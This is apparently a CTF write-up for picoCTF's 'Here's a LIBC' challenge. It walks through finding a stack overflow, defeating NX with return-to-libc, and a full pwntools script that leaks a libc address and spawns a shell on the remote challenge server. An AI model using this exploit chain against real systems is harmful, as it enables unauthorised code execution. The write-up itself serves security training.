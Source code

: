 # here's a libc
> challenge description: I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774

given: binary vuln, libc.so.6, Makefile

## running the binary locally

gives a segmentation fault.

fixed this with pwninit (grabs the correct linker and creates a new binary that i can actually run called vuln_patched)

```console
┌──[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $./vuln_patched 
WeLcOmE To mY EcHo sErVeR!
test
TeSt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
Segmentation fault
```

## finding the vulnerability

looks like there's a basic stack-based overflow.

but NX is enabled, so if the normal buffer-overflow exploits try to put code on the stack and execute it, it won't work.

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $checksec vuln_patched
[*] '/home/user/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC/vuln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
## bypassing NX bit using return-to-libc

requirement: a basic stackbased overflow vulnerability

since ALSR is disabled, libc base address would remain constant/static 

ROPGadets in x64:
* pop rdi is used to pop stack into rdi because in 64 bit arch, argumgents are put into register instead of stack
* 4 argument is rdi -> rsi -> rdx -> rcx

#### find a pop rdi to use

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $ROPgadget --binary vuln_patched | grep rdi;
0x00000000004006c9 : and bl, ch ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006cb : or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006c2 : or dword ptr [rdi], ecx ; mov dh, 0x45 ; cld ; add eax, 0x20 ; jmp 0x4006d6
0x0000000000400913 : pop rdi ; ret
0x00000000004006c8 : shl byte ptr [rax], 0xeb ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
```
the pop rdi address to use: `0x0000000000400913`

#### find the offset needed to overwrite rsp

```assembly
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /home/user/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC_tcache/vuln_patched 
WeLcOmE To mY EcHo sErVeR!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
AaA%AaSaAbAa$aAnAaCaA-Aa(aAdAa;aA)AaEaAaAa0aAfAaBaA1AaGaAcAa2aAhAaDaA3AaIaAeAa4aAjAaFaA5AaKaAgAa6aAlAAhAA7AAMAAiAA8AANAAd

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7a ('z')
RBX: 0x0 
RCX: 0x7ffff7af4264 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7dd18c0 --> 0x0 
RSI: 0x7ffff7dd07e3 --> 0xdd18c0000000000a 
RDI: 0x1 
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffde78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x400770 (<do_stuff+152>:	ret)
R8 : 0x79 ('y')
R9 : 0x0 
R10: 0x0 
R11: 0x246 
R12: 0x1b 
R13: 0x0 
R14: 0x1b 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400769 <do_stuff+145>:	call   0x400540 <puts@plt>
   0x40076e <do_stuff+150>:	nop
   0x40076f <do_stuff+151>:	leave  
=> 0x400770 <do_stuff+152>:	ret    
   0x400771 <main>:	push   rbp
   0x400772 <main+1>:	mov    rbp,rsp
   0x400775 <main+4>:	push   r15
   0x400777 <main+6>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffde80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffde88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffde90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffde98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffdea0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffdea8 ("AAYAAwAAZAAxAAyA")
0056| 0x7fffffffdeb0 ("ZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400770 in do_stuff ()
gdb-peda$ x/xg $rsp
0x7fffffffde78:	0x41416d4141514141
gdb-peda$ pattern offset 0x41416d4141514141
4702159612987654465 found at offset: 136
```

offset needed: 136

#### find the address of the puts function in the GOT and PLT (Procedural Link Table) of the binary.

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC_tcache]
└──╼ $objdump -D vuln_patched | grep puts
0000000000400540 <puts@plt>:
  400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400769:	e8 d2 fd ff ff       	call   400540 <puts@plt>
  400891:	e8 aa fc ff ff       	call   400540 <puts@plt>

```

### final exploit script
```python
#!/usr/bin/env python3

# https://akshit-singhal.medium.com/rop-chain-exploit-with-example-7e444939a2ec

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mercury.picoctf.net", 1774)

    return r


def main():
    p = conn()
    context(os='linux', arch='amd64')
    put_plt_addr = p64(0x400540)                     # $ objdump -D vuln_patched | grep puts;;; (400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip))
    put_got_addr = p64(0x601018)                     # $ objdump -D vuln_patched | grep puts;;; (# 601018 <puts@GLIBC_2.2.5>)
    main_plt_addr = p64(0x400771)                    # $ objdump -D vuln_patched | grep main;;; (0000000000400771 <main>:)
    pop_rdi_gadget = p64(0x400913)                   # $ ROPgadget --binary vuln_patched | grep rdi; (0x0000000000400913 : pop rdi ; ret)
    
    # gdb > pattern create 200 > x/xg $rsp > pattern offset 0x41416d4141514141 for padding
    payload = b'A'*136
    payload += pop_rdi_gadget
    payload += put_got_addr
    payload += put_plt_addr
    payload += main_plt_addr
    p.clean()
    p.sendline(payload)
    p.recvline()
    p.recvline()

    received_line = p.recvline().strip()
    leaked = u64(received_line.ljust(8, b"\x00"))
    log.info(f"leaked address: {hex(leaked)}")

    libc.address = leaked - libc.symbols['puts']    # finding offset
    log.info(f"libc base address: {hex(libc.address)}")

    bin_sh = next(libc.search(b"/bin/sh"))
    system = libc.symbols['system']
    ret = p64(0x40052e)                             # $ ROPgadget --binary vuln_patched | grep ret;; (find only "ret" instruction & add to avoid segfault)

        # segfault will occur due to alternative stack alignments in Ubuntu 18.04. 
        # solution is to find a simple ret address within the binary, and use that to re-align the stack after using /bin/sh
    
    log.info(f"/bin/sh: {hex(bin_sh)}")
    log.info(f"system: {hex(system)}")

    payload2 = b'A'*136
    payload2 += pop_rdi_gadget
    payload2 += p64(bin_sh)
    payload2 += ret
    payload2 += p64(system)
    
    p.clean()

    # log.info("Payload 2: " + str(payload2))

    p.sendline(payload2)
    p.interactive()

if __name__ == "__main__":
    main()
```
